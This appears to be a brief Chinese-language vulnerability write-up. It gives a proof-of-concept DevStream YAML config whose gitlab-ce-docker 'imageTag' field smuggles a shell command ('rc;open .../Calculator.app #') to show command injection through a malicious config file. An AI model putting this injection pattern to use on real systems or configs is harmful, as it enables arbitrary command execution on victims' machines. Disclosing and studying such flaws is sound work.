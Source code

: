 ```yaml
---
title: 2022-Devstream-Command-injection
date: 2022-11-16 12:00:00
categories: [review]
tag: [review,vuln]
---
```




# 关于 Devops toolchains - DevStream 的恶意配置文件命令执行

## POC/EXP

### POC yaml 

```yaml
---
# core config
varFile: "" # If not empty, use the specified external variables config file
toolFile: "" # If not empty, use the specified external tools config file
pluginDir: "" # If empty, use the default value: ~/.devstream/plugins, or use -d flag to specify a directory
state: # state config, backend can be local, s3 or k8s
  backend: local
  options:
    stateFile: devstream.state
---
# tools config
tools:
  # name of the tool
  - name: gitlab-ce-docker
    # id of the tool instance
    instanceID: default
    # format: name.instanceID; If specified, dtm will make sure the dependency is applied first before handling this tool.
    dependsOn: [ ]
    # options for the plugin
    options:
      # hostname for running docker. (default: gitlab.example.com)
      hostname: gitlab.example.com
      # pointing to the directory where the configuration, logs, and data files will reside.
      # (default: /srv/gitlab)
      # 1. it should be a absolute path
      # 2. once the tool is installed, it can't be changed
      gitlabHome: /tmp
      # ssh port exposed in the host machine. (default: 22)
      sshPort: 22
      # http port exposed in the host machine. (default: 80)
      httpPort: 80
      # https port exposed in the host machine.
      # (default: 443)
      # todo: support https, reference: https://docs.gitlab.com/omnibus/settings/nginx.html#enable-https
      httpsPort: 443
      # whether to delete the gitlabHome directory when the tool is removed. (default: false)
      rmDataAfterDelete: false
      # gitlab-ce tag. (default: "rc")
      # imageTag: "rc"
      imageTag: "rc;open /System/Applications/Calculator.app #"

```
